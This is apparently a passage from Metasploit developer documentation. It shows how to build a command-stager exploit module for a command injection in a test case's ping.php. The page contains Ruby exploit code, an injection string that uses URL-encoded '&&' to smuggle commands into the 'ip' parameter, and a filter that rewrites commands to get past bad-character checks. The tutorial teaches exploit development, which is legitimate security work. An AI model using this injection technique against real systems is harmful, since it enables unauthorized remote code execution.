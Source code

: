 ```execute_command```
        'Description' => %q{
          This exploits a command injection using the command stager.
        },
        'License' => MSF_LICENSE,
        'Author' => [ 'sinn3r' ],
        'References' => [ [ 'URL', 'http://metasploit.com' ] ],
        'Platform' => 'linux',
        'Targets' => [ [ 'Linux', {} ] ],
        'Payload' => { 'BadChars' => "\x00" },
        'CmdStagerFlavor' => [ 'printf' ],
        'Privileged' => false,
        'DisclosureDate' => '2016-06-10',
        'DefaultTarget' => 0
      )
    )
  end

  def execute_command(cmd, opts = {})
    # calls some method to inject cmd to the vulnerable code.
  end

  def exploit
    print_status('Exploiting...')
    execute_cmdstager
  end

end
```

Now let's modify the `execute_command` method and get code execution against the test case. Based on the PoC, we know that our injection string should look like this:
```
127.0.0.1+%26%26+[Malicious commands]
```

We do that in `execute_command` using [[HttpClient|./How-to-Send-an-HTTP-Request-Using-HttpClient.md]]. Notice there is actually some bad character filtering involved to get the exploit working correctly, which is expected:
```ruby
def filter_bad_chars(cmd)
  cmd.gsub!(/chmod \+x/, 'chmod 777')
  cmd.gsub!(/;/, ' %26%26 ')
  cmd.gsub!(/ /, '+')
end

def execute_command(cmd, _opts = {})
  send_request_cgi(
    {
      'method' => 'GET',
      'uri' => '/ping.php',
      'encode_params' => false,
      'vars_get' => {
        'ip' => "127.0.0.1+%26%26+#{filter_bad_chars(cmd)}"
      }
    }
  )
end

def exploit
  print_status('Exploiting...')
  execute_cmdstager
end
```

